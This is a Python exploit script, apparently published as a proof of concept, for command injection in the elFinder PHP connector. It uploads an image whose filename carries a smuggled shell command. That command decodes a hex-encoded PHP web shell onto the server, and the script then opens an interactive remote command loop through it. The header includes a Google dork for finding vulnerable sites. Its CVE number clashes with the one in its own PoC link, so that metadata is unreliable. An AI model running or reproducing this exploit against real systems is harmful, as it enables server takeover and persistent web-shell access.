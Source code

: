     #!/usr/bin/python

    '''
    # Exploit Title: elFinder <= 2.1.47 - Command Injection vulnerability in the PHP connector.
    # Date: 01/07/2021
    # Exploit Author: @hamzaanonime
    # Vulnerability reported by: Thomas Chauchefoin
    # Google Dork: intitle:"elFinder 2.0.x"
    # Vendor Homepage: https://studio-42.github.io/elFinder/
    # Software Link: https://github.com/Studio-42/elFinder/archive/2.1.47.tar.gz
    # Version: <= 2.1.47
    # Tested on: Linux 64bit + Python2.7
    # PoC: https://www.secsignal.org/news/cve-2019-9194-triggering-and-exploiting-a-1-day-vulnerability/
    # CVE: CVE-2021-0741

    # Usage: python exploit.py [URL]

    '''

    import requests

    import json

    import sys


    payload = 'SecSignal.jpg;echo 3c3f7068702073797374656d28245f4745545b2263225d293b203f3e0a | xxd -r -p > SecSignal.php;echo SecSignal.jpg'


    def usage():

        if len(sys.argv) != 2:

            print "Usage: python exploit.py [URL]"

            sys.exit(0)


    def upload(url, payload):

        files = {'upload[]': (payload, open('SecSignal.jpg', 'rb'))}

        data = {"reqid" : "1693222c439f4", "cmd" : "upload", "target" : "l1_Lw", "mtime[]" : "1497726174"}

        r = requests.post("%s/php/connector.minimal.php" % url, files=files, data=data)

        j = json.loads(r.text)

        return j['added'][0]['hash']


    def imgRotate(url, hash):

        r = requests.get("%s/php/connector.minimal.php?target=%s&width=539&height=960&degree=180&quality=100&bg=&mode=rotate&cmd=resize&reqid=169323550af10c" % (url, hash))

        return r.text


    def shell(url):

        r = requests.get("%s/php/SecSignal.php" % url)

        if r.status_code == 200:

           print "[+] Pwned! :)"

           print "[+] Getting the shell..."

           while 1:

               try:

                   input = raw_input("$ ")

                   r = requests.get("%s/php/SecSignal.php?c=%s" % (url, input))

                   print r.text

               except KeyboardInterrupt:

                   sys.exit("\nBye kaker!")

        else:

            print "[*] The site seems not to be vulnerable :("


    def main():

        usage()

        url = sys.argv[1]

        print "[*] Uploading the malicious image..."

        hash = upload(url, payload)

        print "[*] Running the payload..."

        imgRotate(url, hash)

        shell(url)


    if __name__ == "__main__":

        main()